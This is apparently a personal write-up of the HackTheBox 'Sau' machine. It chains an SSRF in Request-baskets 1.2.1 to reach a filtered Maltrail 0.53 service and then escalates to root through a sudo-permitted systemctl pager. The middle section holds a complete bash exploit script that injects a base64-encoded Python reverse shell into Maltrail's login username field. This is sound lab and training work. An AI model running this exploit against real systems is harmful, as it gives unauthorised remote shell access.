

## Writeup for Sau from HackTheBox

Firstly, an nmap scan was performed on the target machine with the added options of utilising default script scans and version detection against the target machine.

``` bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-18 18:13 EST
Stats: 0:00:58 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 18:14 (0:00:14 remaining)
Stats: 0:01:46 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 18:16 (0:01:03 remaining)
Nmap scan report for 10.10.11.224
Host is up (0.29s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Mon, 18 Dec 2023 23:14:56 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Mon, 18 Dec 2023 23:14:23 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Mon, 18 Dec 2023 23:14:25 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94%I=7%D=12/18%Time=6580D249%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;
SF:\x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Mon,\x2018\x20Dec\x2
SF:02023\x2023:14:23\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/
SF:web\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20R
SF:equest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\
SF:x20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x20
SF:200\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Mon,\x2018\x20Dec\x2
SF:02023\x2023:14:25\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPReques
SF:t,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain
SF:;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request
SF:")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20te
SF:xt/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x2
SF:0Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCo
SF:ntent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n
SF:\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400
SF:\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\n
SF:Connection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,
SF:"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20
SF:charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(
SF:Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\
SF:nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Option
SF:s:\x20nosniff\r\nDate:\x20Mon,\x2018\x20Dec\x202023\x2023:14:56\x20GMT\
SF:r\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20na
SF:me\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\$
SF:\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type
SF::\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x2
SF:0Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Reques
SF:t\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20cl
SF:ose\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 153.50 seconds
```

According to the above scan, there is an Openssh server on port 22, a http port on port 80 and an unknown port on port 55555.

Upon attempting to visit the web server on port 80, a connection could not be made and the request timed out:


It is possible that a Web Application Firewall (WAF) is preventing the user from visiting the web server on port 80.

However, it was possible to visit the server on port 55555:


The server on port 55555 is running Request-baskets of version 1.2.1. Upon creating a basket, requests can be made to the provided url and Request-baskets will record any request made to the provided url and allow users to view the details of the request made. To do this run the command:

``` bash
curl http://10.10.11.224:55555/n42xwmq
```

Then this will appear in request-baskets:


However, it was earlier identified that the server was running Request-baskets version 1.2.1. Upon researching this software for public vulnerabilities on Google, it was found that request-baskets was vulnerable to CVE-2023-27163.

As explained in https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7, CVE-2023-27163 identifies a Server Side Request Forgery vulnerability which occurs because Request-baskets provides users the option to forward requests made to a basket that the user has created, to another service that they may not have access to. As the request would have been forwarded by another service on the server, the network protections would not stop the request, thus, allowing unauthorised users to access the protected service. Hence, this can be used to forward a request to the protected service running on port 80 as identified earlier.

This can be exploited by configuring Request-baskets to forward requests to port 80. To configure request-baskets to do this, go to the buttons at the top right hand corner and click on the settings icon and apply the following settings:




Subsequently, upon making a request to the basket's url, a Maltrail site can be accessed on port 80. On the web page, it can be seen that the version of Maltrail used was 0.53:


Upon searching for public vulnerabilities targeting this version of Maltrail, it was found that it was vulnerable, as explained in this site: https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/.


It appears that this exploit leverages an OS command injection vulnerability in the "username" parameter then the user logs into the Maltrail site. This vulnerability occurs because Maltrail's source code uses the subprocess.check_output function, which is used to run OS commands on the machine.


Hence a bash script was created which would be used to exploit this vulnerability:


``` bash
#!/bin/bash

if [ $# -eq 3 ]; then
	exploit="python3 -c 'import socket,os,pty; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"$2\",$3));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/sh\")'";

	encoded=$(echo -n "$exploit" | base64 -w 0);

	curl "$1/login" --data "username=;\`echo $encoded|base64 -d|bash\`";

else
	echo "Usage: bash script.sh <target_url> <listener_ip> <listener_port>";

fi
```


Within the script, the exploit variable contains a one line command that will send a reverse shell to the listener's ip address and port. Next, the command was encoded in base64. Then the curl command is used to mkake a post request to the login endpoint in Maltrail, while injecting the malicious command in the "username" parameter. The injected command is `;echo $encoded|base64 -d|bash`. First a semi-colon is added before the injected command, which is a command separator and is used to run the injected command after any other commands that the source code may run. Next the contents of the encoded payload will then be base64 decoded, before being piped to `bash` which will execute the reverse shell command.


To utilise the script start a netcat listener on any port and run the below command, providing the listener's ip address and port.


``` bash
bash script.sh http://10.10.11.224:55555/n42xwmq <IP> <PORT>
```


After letting the exploit run for some time, a reverse shell was then caught on the netcat listener containing the user "puma" running on the machine "sau". As the user "puma" the user.txt file can be read.

To enumerate for ways to escalate privileges, the first step taken was to run `sudo -l` which produced this output:

``` bash
puma@sau:~$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```


Upon running `sudo /usr/bin/systemctl status trail.service`, a less-like pager appeared. Pagers, such as less, are used to display large amounts of content in a way in which users can navigate through the content. It also provides the option to type commands into the pager, such as the `!bash`, which exits the pager and spawns a new shell for the user. As the pager was opened as a super user, this means that the shell will have root privileges when spawned by executing the command `!bash` on the pager.


Subsequently, this escalates privileges to the root user and allows the root.txt file to be read.


Overall, I found the box educational in its usage of multiple public exploits in order to gain a foothold, emphasising the necessity of strong research skills within the field of Cybersecurity. The privilege escalation required users to have prior knowledge of the vulnerabilities of starting a pager as a super user. However, since I had prior knowledge of this exploit, I found this step to be straight forward.